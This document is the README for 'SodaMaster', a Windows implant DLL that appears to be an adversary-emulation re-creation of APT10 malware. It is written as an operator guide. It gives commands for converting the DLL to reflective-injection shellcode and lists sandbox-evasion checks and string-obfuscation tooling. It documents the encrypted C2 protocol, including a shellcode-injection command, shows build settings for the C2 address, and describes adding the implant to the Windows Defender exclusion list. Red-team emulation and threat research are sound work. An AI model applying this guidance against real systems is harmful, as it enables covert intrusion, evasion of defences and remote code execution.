

## SodaMaster DLL



### Description

#### Automated System Discovery

Upon execution of SodaMaster, there are several pieces of information
collected and analyzed in the target environment. This information is used
to determine if the payload is running in a virtualized/sandboxed environment
as well as to relay situational awareness information back to the C2 server.

Information collected and sent back to the C2 server are as follows:

* The username/owner of the SodaMaster process
* The hostname/computername of the system with the implant installed
* The process ID of the SodaMaster process and the process privilege flag
* Processor architecture and Windows build information
* The date/time that the implant was initially executed
* An RC4 key that will be used to encrypt the followup communications
* The name of the socket used to connect to the C2 server

#### Shellcode Reflective DLL Injection (sRDI)

The sRDI payload should be compiled as a DLL with an export function.

Use the following steps to prepare the payload and generate shellcode for use
with the SodaMaster sRDI module:

1. Clone the [sRDI repo](https://github.com/monoxgas/sRDI), Note that you must checkout the sRDI repo to commit
`5690685aee6751d0dbcf2c50b6fdd4427c1c9a0a` or it will not function.
2. Open `Powershell` and navigate to the `sRDI/Powershell` directory of the
sRDI repo (double check that you're checked out to the correct commit).
3. Move a copy of the compiled .dll file to the Powershell directory (GUI or mv cmd work).
4. Import the conversion module: `Import-Module .\ConvertTo-Shellcode.ps1`
5. Perform the conversion:

```
$sc = ConvertTo-Shellcode -File SodaMaster.dll -FunctionName "init"
$sc2 = $sc | % { write-output ([System.String]::Format('{0:X2}', $_)) }
$sc2 -join "" > payload.txt
```

#### Anti-VM/Anti-Sandbox

Sodamaster implements several anti-vm/anti-sandbox techniques. These
techniques determine if the implant is in a virtual environemnt and/or
being manipulated in an unitended way and exits the application.

The following high level techniques have been implemented into SodaMaster:

* Time based evasion
  * The implant track the time between cycles and determines if the application/system time is being manipulated.
* Registry Checks
  * `Applications\\VMwareHostOpen.exe`
* Running Process Checks
  * `vmtoolsd.exe`
 	* `vbox.exe`
* Checks that the number of processors are greater than 1.
* Sits in a loop until the active window state changes (to show user activity)

#### StackStrings

Strings can be easily discovered inside a binary. The idea of stack
strings is to add a layer of obfuscation to the string that makes
it more dificult to read and reverse. The script `stackstrings.py`
is an automated tool that can be used to convert normal stirngs
into stack strings.

##### the "math" function

To use the stackstring function you will need to write a function that performs some
operations with two integer variables. These opterations will help to obfuscate the fact that
the provided variables add up to a decimal value.

###### NOTE: The script adds 5 to int val1, so a custom function should account for that

Math Function:

```
int RetCharVar(int val1, int val2) {
 int val3 = val1 * 100;
 int val4 = val2 * 50;
 int val5 = 0;
 if (val3 > val1) {
  val3 = val3 / 25;
  val5 = val3 / 4;
  val5 = val5 - 5;
 }
 return val5 + (val4 / 50);
}
```

The script takes the three following required arguments:

* function_name - The "math" function.
* variable_name - a variable name that will hold the obfuscated string
* string - The string you want to obfuscate

Usage:

```
python3 stackstrings.py --function_name [MATH FUNCTION NAME] --variable_name [STRING VARIABLE NAME] --string [STRING TO OBFUSCATE]
```

Example:

```
python3 stackstrings.py --function_name RetCharVar --variable_name secretString --string "Top Secret Value"


char secretString[] = "TCfESAUrHEzHWpup";
*(secretString + 1) = RetCharVar(16,100);
*(secretString + 2) = RetCharVar(60,57);
*(secretString + 3) = 32;
*(secretString + 5) = RetCharVar(94,12);
*(secretString + 6) = RetCharVar(64,40);
*(secretString + 7) = 114;
*(secretString + 8) = RetCharVar(37,69);
*(secretString + 9) = RetCharVar(7,114);
*(secretString + 10) = RetCharVar(19,18);
*(secretString + 11) = RetCharVar(41,50);
*(secretString + 12) = 97;
*(secretString + 13) = RetCharVar(72,41);
*(secretString + 14) = 117;
*(secretString + 15) = RetCharVar(102,4);
```

### C2 Communications

#### Packet Format

Packets are created by prepending data with an associated ID and length byte. The start of the unencrypted
packet data will contain an identifier. The identifier will allow the C2 server to differentiate
from random connections and an actual implant connection. The following example shows how a
packet send to the C2 server would format sending the username and computer name to the C2
server.

#### Data Field Formats

```
Session Identifier: HEX STRING - SODAMASTER  -> 534f44414d4153544552
ID (cmd id):  HEX - DECIMAL - w   -> 77 (Function uses the decimal form eg. 119)
LENGTH OF LENGTH: HEX - DECIMAL - 02   -> 3 (Tells the function the length is 3 string bytes long)
LENGTH:   HEX STRING - 0100   -> 10 (The data is 10 characters long)
DATA:   HEX STRING - 534f44414d4153544552 -> SODAMASTER
```

##### Unencrypted Example

```

[IDENTIFIER (HEX STRING)] [ID (HEX - DECIMAL)] [LENGTH OF LENGTH (HEX-DECIMAL)] [LENGTH (HEX STRING - INT)] [DATA (HEX STRING)]

Example 1:
[SODAMASTER] [0x03] [0x01] [03] [Bob] [0x07] [0x02] [0100] [Desktop-PC]

Example 2:
[SODAMASTER] [0x99] [0x01] [03] [Bob] [0x07] [0x02] [0100] [Desktop-PC]
```

##### Encrypted Example

```
{RC4 [IDENTIFIER (HEX STRING)] [ID (HEX - DECIMAL)] [LENGTH OF LENGTH (HEX-DECIMAL)] [LENGTH (HEX STRING - INT)] [DATA (HEX STRING)] }

{RC4 [SODAMASTER][0x03][0x01][03][Bob][0x07][0x02][0100][Desktop-PC] }
```

#### Implant Packet Data/ID Table (Implant -> C2)

The following table shows the ID's and correlated data in the first packet send to the C2 server.

| ID | Length | Data |
| -- | ------ | ---- |
| 0x03 | Variable | User Name |
| 0x04 | Variable | PID |
| 0x05 | Variable | Date of execution (yyyy/mm/dd hh:mm:ss) |
| 0x06 | Variable | RC4 encryption key for C2 communications |
| 0x07 | Varaible | Computer Name |
| 0x08 | 4 Byte | Socket name |
| 0x09 | Variable | Privilege Flag |
| 0x40 | Variable | Processor Arch (1 byte), OS Major version (1 byte), OS Build version (4 bytes), Product Type (3 bytes)|

#### Implant Packet Data/ID Table Contd. (Implant -> C2)

Additional Data/ID's to be used for general C2 communication

| ID | Length | Data |
| -- | ------ | ---- |
| 0x98 | NULL | C2 beacon |
| 0x99 | Variable | Response to C2 (stdout, ack, etc.) |

#### C2 Packet Data/ID Table (C2 -> Implant)

THe following table shows the Packet command table and expected data/arguments. Arguments
are separated using a semicolon `;`.

| Command      | Length | Arguments | Description |
| -----------  | ------ | --------- | ----------- |
| w | Variable | Message box title, Message box text | Pops up a message box on the implant host |
| x | 0 | NULL | Exit's the implant process |
| l | Variable | Beacon timer | Set the time inbetween implant check-in's (1-255 seconds) |
| f | Variable | RC4 key | Set the RC4 key to be used during communication |
| s | Variable | Shellcode | Send shellcode from the C2 server and inject into a process |

The C2 server will acknowledge packets by sending a `0x98`. If the C2 doesnt
acknowledge then the data should be resent.

Example:

```
{RC4 [SODAMASTER][0x03][0x01][03][Bob][0x07][0x02][0100][Desktop-PC] } -> C2 Server -> [0x98]

[0x98] -> Implant
```

#### Expected Data Format Examples (C2 -> Implant)

Tasking the implant to sleep for 15 seconds.

```
6c01020105
```

Tasking the implant to open a message box that says "test"

```
77010474657374

```

### Encryption

#### StackStrings

All strings that are used in the implant are either encoded using the StackString technique
or runtime Xor Encryption/Decrption.

#### XOR String Encryption

The XOR encryption is done using macros at compile time, and is decrypted at
runtime. The code snippit was found on Stack overflow at:
<https://stackoverflow.com/questions/7270473/compile-time-string-encryption>

#### RSA Encryption

The first packet sent by the SodaMaster implant is encrypted with an RSA 2048-bit key. The
key was generated using the following commands:

```
// Generate private key
openssl genrsa -out private.pem 2048
// Generate public key
openssl rsa -in private.pem -outform PEM -pubout -out public.pem

// Convert public key to DER
openssl rsa -pubin -in public.pem -RSAPublicKey_out -out public_pkcs1.key -outform der
```

Note: The DER format public key is bae64 encoded before being put in the RSA function

#### RC4 Encryption

Follwing the first packet all traffic between c2/impant is encrypted using RC4. The key is randomly generated and sent to the C2 server in the first RSA encrypted packet.

### Anti-VM Checks

Currently SodaMaster implements 5 anti-vm/anti-sandbox checks. The checks are listed out in more
detail below.

* Registry Checks
  * `Applications\\VMwareHostOpen.exe`
* Process Checks
  * `vbox.exe`
  * `vmtoolsd.exe`
* Check CPU cores > 1
* Check that time isnt being sped up on every logical loop.
* Validate MSR reserved MSR ranges

### Building the DLL

Open Powershell and move to the project source directory. From the project source directory  run the following command
to build the DLL.

Build with default arguemnts:

```
cmake .
cmake --build . --clean-first
```

Build with custom arguments:

```
cmake -D C2_PORT="4444" -D C2_IP_ADDRESS="1.1.1.1" -D DEBUG_MSG=0 .
cmake --build . --clean-first
```

### Testing

The SodaMaster integration test can be used to make sure that SodaMaster is executing properly in
a given environemnt. Currently the integration test will check the following:

* TCP connection to C2
* Beacon packet sent to C2
* SodaMaster path added to Windows Defender whitelist

To use the integration test, the implant should be compiled with `127.0.0.1` as the C2 IP Address
and `9999` as the C2 Port.

Run the integration test:

```
./integration_test.ps1
```

Then run the implant.

```
path/to/SodaMaster.exe
```

The integration test window will provide prompts based on the results of the integration test.

### Cleanup Instructions

Use the `cleanup.ps1` script to remove all SodaMaster artifacts from disk. The script can be found here: [cleanup.ps1](scripts/cleanup.ps1)

### CTI Links

* [Secure List](https://securelist.com/apt10-sophisticated-multi-layered-loader-ecipekac-discovered-in-a41apt-campaign/101519/)
* [JPCERT](http://jsac.jpcert.or.jp/archive/2022/pdf/JSAC2022_9_yanagishita-tamada-nakatsuru-ishimaru_en.pdf)
* [Kaspersky](https://media.kasperskydaily.com/wp-content/uploads/sites/86/2021/02/25140359/greatidea_A41_v1.0.pdf)
* [TrendMicro](https://www.trendmicro.com/ja_jp/research/21/l/Sigloader-by-Earth-Tengshe.html)
* [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/cicada-apt10-china-ngo-government-attacks)

### Dependencies

#### Configuring VCPKG + CryptoPP

1. Install vcpkg with these commands:
    * `cd C:\`
    * `git clone https://github.com/Microsoft/vcpkg.git`
    * `cd vcpkg`
    * `./bootstrap-vcpkg.sh`
    * `./vcpkg integrate install`
    * Set a system level environment variable named `VCKPG_ROOT` to the root of your installation directory. For example, `VCPKG_ROOT = C:\vcpkg`.

The projects dependencies (cryptopp) will now automatically be installed at build time.

### Troubleshooting

#### Anti-VM Exits

In most cases the AntiVM functions are wrapped in try/except statements allowing SodaMaster to continue execution if EDR
or some other application interferes with the AntiVM function. There are logs associated wih the AntiVM functions
that will let the operator know if a specific function failed or succeeded.

The MSRCheck is the only AntiVM check that isn't surrounded with try/except since it depends on an error being thrown
as part of the check. The logging for this function is outside of the function. There will be a statement before
the function that logs the function start, if there is a following log it can be considered sucessful, if there isn't
it should be treated as AntiVM triggered.

##### Visual Studio

To execute the unit tests, thre are two options. The first option it to select `Build > Build All` and execute the unit_tests.exe binary.
The second option is to select `Test > Run CTests for SodaMaster`. Both options will execute all existing unit tests.

Current unit tests:

* RC4 Encryption
* RC4 Decryption

#### Check that debug strings are encrypted in the binary

```
strings .\sodamaster.exe | Select-String -Pattern "REMOVE"
```

#### Start a listener on the local system for TCP/Comms testing

Open a powershell prompt and browse to the `scripts/` directory.

Import the poershell function using:

```PowerShell
. .\listener.ps1
```

Start the listner in PowerShell:

```PowerShell
Start-listener -TCPPort 8080
```

You can exit the listener at any time using `CTRL + C`.
